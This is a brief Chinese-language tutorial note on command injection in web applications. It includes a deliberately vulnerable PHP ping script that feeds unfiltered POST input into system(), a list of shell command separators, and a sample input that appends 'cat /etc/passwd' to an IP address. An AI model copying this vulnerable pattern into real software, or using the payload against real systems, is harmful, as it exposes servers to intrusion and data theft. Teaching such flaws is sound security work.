


在部分WEB应用里，应用程序会提供一些命令执行操作，如没有过滤好用户输入的数据，就有可能产生命令执行漏洞 从而执行有危害系统命令。

```php
<?php 
if($_POST['ip']){
	echo system('ping '.$_POST['ip']);
}
?>
```

**命令连接符号总结**

```php
http://www.webtester.com/exec/exec01.php
```

command1 && command2 先执行command1后执行command2

command1 | command2 只执行command2

 

command1 & command2 

先执行command1后执行command2

```bash
127.0.0.1 -c 3 & cat /etc/passwd
```

